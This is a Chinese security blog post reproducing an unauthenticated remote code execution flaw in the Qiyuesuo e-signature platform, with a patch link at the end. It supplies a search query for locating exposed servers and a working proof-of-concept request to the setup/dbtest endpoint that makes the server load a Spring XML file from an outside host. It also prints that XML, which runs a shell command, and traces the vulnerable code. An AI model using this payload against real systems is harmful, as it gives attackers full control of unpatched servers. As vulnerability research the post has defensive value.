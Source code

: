 #  【漏洞复现】契约锁远程代码执行漏洞  
PokerSec  PokerSec   2025-06-15 01:00  
  
**先关注，不迷路.**  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 漏洞介绍  
  
契约锁是一个电子签章及印章管控平台，提供的电子文件具有与纸质文件一样的法律效力。近日，契约锁发布安全补丁修复了远程代码执行漏洞。该漏洞允许未经过身份认证的攻击者可以利用该漏洞在契约锁管理端上执行任意代码，从而完全控制服务器。。  
## 语法  
```
app="契约锁-电子签署平台"&& port="9181"
```  
  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LAS14MYIqH3FFRfsiabBzNzOdJIFIoicH0ibLXKOkRDTg9kflIAhljz3dA/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  
```
/setup/dbtest
/api/setup/dbtest?db=POSTGRESQL&host=localhost&port=5321&username=root&name=test%2F%3FsocketFactory%3Dorg%2Espringframework%2Econtext%2Esupport%2EClassPathXmlApplicationContext%26socketFactoryArg%3Dhttp%3A%2F%2Fxxx.dnslog.cn%2F1%2Exml
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LLFg7QvRKdVwiaUJxUfQ2Qtv8Qnv1YLstLf4jRVSw9hHGRtiaF3bI954A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LC9YjYgDxruqEBsqtMGZoTFGvfRhVTaKg6QRXIFIKp6soIEjQMicXpBA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83L294poZhoY4FwsgKYwIH3eWDxibHjibJcLTqXJd7OtOwNiaXBayNcQytdw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LLaUwNIAibJBqhZ1GUnibYr1g4tx3RicKpKggTo2IGwfF3sbtfF92fMLWw/640?wx_fmt=png&from=appmsg "")  
  
## 漏洞分析  
  
接口位置：  
```
qiyuesuo\privoss.jar!\BOOT-INF\classes\com\qiyuesuo\setup\SetupController.class
```  
  
参数为db、name、host、port、username、password  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LygSuTbahJbpWbwyFH8l6vKnRzficmpVic4lLBtMeG5karMqY0ib9Of9Nw/640?wx_fmt=png&from=appmsg "")  
  
跟进validateDatabase 方法 ，来到  
```
privoss.jar!\BOOT-INF\classes\com\qiyuesuo\setup\SetupService.class
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LyuxDIggeTf89PRy9l6wAkKxl25B5SibLsImrLhDWO7BswFkAAUmoc9Q/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LiaS7GY3Tv7Z5mtHooDU8At2ME5sHYicnyb8qIgJFuEQs3NvdliadwibesQ/640?wx_fmt=png&from=appmsg "")  
  
跟进  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83L32RRS1tw1gQeBvBzmGht0WqcicgOgXFskqXgb4EpZRfoiarN8RQH98Ug/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LwvEuXHOfnIEFUNQb9hdgytQbN3kfgKficvukgogAdLZWE7a8ySCQxKw/640?wx_fmt=png&from=appmsg "")  
  
支持的jdbc  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LjmdTJaWbBrYoseygcdqIbKcpiclfzUHZtARLFYFlPfClMCE3KcEd4GA/640?wx_fmt=png&from=appmsg "")  
  
漏洞利用的是PostgreSQL JDBC Driver RCE（CVE-2022-21724）  
```
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>/bin/sh</value>
            <value>-c</value>
            <value>touch /tmp/test</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLIeLiauNbYyBTjFjR1FC83LY8dYp2TTzdBVFcHoHAXIf7RhHUDIhcUqrvpA4rBwFNY92nFr9xAvNg/640?wx_fmt=png&from=appmsg "")  
## 修复意见  
##   
  
官方已更新补丁，及时更新最新版本：https://www.qiyuesuo.com/more/security/servicepack  
  
  
如有侵权，请及时联系删除。  
  
  
